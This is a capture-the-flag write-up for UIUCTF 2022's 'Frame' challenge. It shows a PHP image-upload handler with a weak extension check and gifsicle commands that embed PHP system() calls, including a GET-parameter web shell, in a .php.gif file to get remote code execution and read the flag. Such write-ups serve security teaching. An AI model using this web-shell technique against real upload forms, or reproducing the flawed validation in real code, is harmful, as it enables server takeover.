 # UIUCTF 2022

## Frame

### [source](https://github.com/GiongfNef/ChallFile/blob/main/UIUCTF2022/frame/handout.tar)

![chall](<../../.gitbook/assets/image (6) (3).png>)

### Analysis

```
<?php
ini_set('display_errors', 1);
ini_set('display_startup_errors', 1);
error_reporting(E_ALL);
          if (isset($_POST["submit"])) {
            $allowed_extensions = array(".jpg", ".jpeg", ".png", ".gif");
            $filename = $_FILES["fileToUpload"]["name"];
            $tmpname = $_FILES["fileToUpload"]["tmp_name"];
            $target_file = "uploads/" . bin2hex(random_bytes(8)) . "-" .basename($filename);

            $has_extension = false;
            foreach ($allowed_extensions as $extension) {
              if (strpos(strtolower($filename), $extension) !== false) {
                $has_extension = true;
              }
            }
            
            if ($_FILES["fileToUpload"]["size"] < 2000000) {
              if (getimagesize($tmpname) && $has_extension) {
                if (move_uploaded_file($tmpname, $target_file)) {     
                  echo "<div id='frame'><img src='$target_file' alt='Your image failed to load :(' id='submission'></div>";
                } else {
                  echo "There was an error uploading your file. Please contact an admin.";
                }
              } else {
                echo "Your picture is not a picture and could not be framed.";
              }
            } else {
              echo "Your picture is too large for us to process.";
            }
          }
        ?>
```

* know that: $allowed\_extensions = array(".jpg", ".jpeg", ".png", ".gif"); -> we can use ".gif" extension file. Finding around and i got [<mark style="color:blue;">`this doc`</mark>](https://doddsecurity.com/94/remote-code-execution-in-the-avatars/)<mark style="color:blue;">``</mark>
* We can use `gifsicle`  to embedd PHP code that runs the Linux command into a malicious image named output.php.gif.

### Exploit

#### First way

* Firstly, we convert png file that we received from chall to gif file
* I have tried change file extension from png to gif but it doesn't work, of course.

![](<../../.gitbook/assets/image (3) (3).png>)

* I convert by [online tool](https://cloudconvert.com/png-to-gif) and ... that works. After we that just use this command:

```
gifsicle < frame-1.gif --comment "<?php system('id'); ?>" > output.php.gif
```

* Upload the output gif to server:

![the path of our requesting](<../../.gitbook/assets/image (9) (3) (1).png>)

Go to that path and get some interesting things:

![](<../../.gitbook/assets/image (1) (2) (2).png>)

* It works, try other commands to rce :

```
gifsicle < frame-1.gif --comment "<?php system('ls /'); ?>" > output.php.gif
```

![Here yah gooooo](<../../.gitbook/assets/image (4) (3) (1).png>)

* Now just use rce command and got the flag:

```
gifsicle < frame-1.gif --comment "<?php system('cd / && cat flag'); ?>" > output.php.gif
```

![](<../../.gitbook/assets/image (2) (1) (2).png>)

flag in some confusing thing like this:

![](<../../.gitbook/assets/image (1) (1) (2).png>)

#### Firstway but easier \~

```
gifsicle < frame-1.gif --comment '<?php echo system($_GET["command"]); ?>' > output.php.gif
```

Now we can rce ez by web shell

> /uploads/c654036b5974c786-output.php.gif?command=ls%20-a

![](<../../.gitbook/assets/image (1) (1) (3).png>)



Thanks for reading. Have a good day :heart: !
